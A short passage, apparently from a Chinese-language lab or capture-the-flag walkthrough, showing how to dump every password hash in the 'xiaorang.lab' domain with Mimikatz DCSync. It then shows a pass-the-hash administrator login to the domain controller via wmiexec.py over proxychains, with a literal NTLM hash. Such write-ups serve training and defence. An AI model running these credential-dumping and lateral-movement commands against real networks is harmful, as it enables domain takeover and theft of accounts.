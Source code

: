 [![](assets/1706496403-1348976f3d3b5acea65b2cc515ef5632.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121501-a3f97d2c-bcca-1.png)

### 导出域内 Hash

使用 Mimikatz 导出域内所有 Hash

```plain
lsadump::dcsync /domian:xiaorang.lab /all /csv
```

[![](assets/1706496403-deced2681182fc09b42cea24b783ae74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121506-a6bf82e0-bcca-1.png)

### 票据传递

使用刚刚获取的 Hash 进行登录即可

```plain
proxychains python3 wmiexec.py xiaorang.lab/administrator@172.22.13.6 -hashes :6341235defdaed66fb7b682665752c9a -dc-ip 172.22.13.6
```

[![](assets/1706496403-0a841511a6022dcfe4a44bff0ee25ad9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121512-aaac2638-bcca-1.png)

